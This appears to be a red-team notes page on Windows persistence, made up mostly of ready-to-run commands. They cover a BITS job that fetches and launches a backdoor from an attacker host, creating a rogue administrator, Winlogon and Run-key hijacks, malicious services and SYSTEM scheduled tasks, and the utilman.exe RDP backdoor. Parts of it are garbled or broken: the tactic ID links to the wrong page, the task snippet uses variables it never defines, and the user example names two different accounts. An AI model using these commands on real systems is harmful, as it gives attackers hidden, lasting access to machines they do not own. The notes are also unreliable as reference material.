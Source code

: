 # Persistence

([MITRE Tactic TA0003](https://attack.mitre.org/tactics/TA0002/))

Reasons for wanting persistence on a machine or network:
1. Backdooring and post-detection re-entrance.
2. Stability and a operational section of the network to work from.
3. Gaining foothold a hard to reproduce, especially if is phished for.
4. Re-exploitation is not alway possible post compromised or is also not fittly stealthy.
5. The SOC or Blue/Purple teams may have or would make significantly easier to detect.

For specifically [[Active-Directory-Persistence]] or [[Windows-Persistence]] or [[Linux-Persistence]].


## Persistence Bottom-Up

#### Startup folder persistence
```
C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```
Edit the registry, Startup from registry editing
```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
```

#### BITS Jobs
```powershell
# Note: In order to work you have to have a webserver running so BITS can download the backdoor and Metasploit listening for connections.
# ALSO Note: BITS is very unstable and can and might give you just temporary persistence.
bitsadmin /addfile backdoor "http://attackbox:port/backdoor.exe" "C:\Users\%username%\somewhere\backdoor.exe"
bitsadmin /SetNotifyCmdline 1 cmd.exe "/c bitsadmin.exe /complete backdoor | start /B C:\path\backdoor.exe"
bitsadmin /SetMinRetryDelay backdoor 30
bitsadmin /resume
```


##  Persistence Top-Down
#### Creating another administrator user
```powershell
net user /add <user> <password>
net localgroup Administrators backdoor /add
```
####  Edit the registry
User logon that sends you a shell:
```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, <PATH_TO_BINARY>" /f 
```

#### Persistence by creating a service
```powershell
New-Service -Name "<SERVICE_NAME>" -BinaryPathName "<PATH_TO_BINARY>" -Description "<SERVICE_DESCRIPTION>" -StartupType "Boot"
```
#### Scheduled tasks
```powershell
New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/ C:\path\backdoor.exe"
New-ScheduledTaskTrigger -AtlogOn
New-ScheduledTaskPrincipal -UserId "NT AUTHORITY\SYSTEM" -RunLevel Highest
New-ScheduledTaskSettingsSet
Register-ScheduledTask -Action $A -Trigger $B -Principal $C -Settings $D
Register-ScheduledTask Backdoor -InputObject $E
```
####  Backdooring RDP
```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f	
```